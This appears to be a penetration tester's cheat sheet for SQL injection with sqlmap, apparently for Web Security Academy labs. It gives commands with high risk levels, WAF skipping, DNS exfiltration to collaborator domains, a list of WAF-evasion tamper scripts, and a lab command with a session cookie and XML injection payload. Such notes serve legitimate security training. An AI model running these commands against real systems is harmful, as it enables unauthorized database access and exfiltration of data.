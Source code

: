 # SQLI

Make sure SQLMAP DNS Collaborator extension is still installed (testing)

* Cryptocat recommends to avoid using `-r`option and to just use CLI

```bash
sudo sqlmap --skip-waf --risk 3 --level 3 -r request.item -o --batch --dns-domain=laz3k1ymu2kc0idl9tumx345nwtnhf54.oastify.com
```

Tamper scripts general (Jhaddix)

```
tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

```
sqlmap --list-tampers 
```

```bash
# Hex Entity encoded XML Post for lab
sudo sqlmap --skip-waf --dns-domain=izlubtqohy2z2888mo48gfhcv31upkd9.oastify.com  --level 5 --risk 3 -o -u https://0acf0086046a3c558189d41400ba001d.web-security-academy.net/product/stock --cookie "session=Q3sPhj537HOewWIqNvbF7uz9B8VMoaYI" --data '<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1*</storeId></stockCheck>' --tamper=hexentities --batch

```
